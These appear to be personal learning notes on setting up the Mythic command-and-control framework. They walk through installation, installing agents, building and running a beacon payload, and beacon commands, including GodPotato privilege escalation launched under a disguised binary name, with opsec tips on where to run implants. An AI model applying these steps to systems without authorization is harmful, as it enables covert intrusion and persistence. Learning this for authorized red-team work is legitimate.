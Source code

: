 
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```



# Useful Beacon Commands
## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## Download/Upload
Self explanatory

## Shell
Runs cmd from the cont
## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/

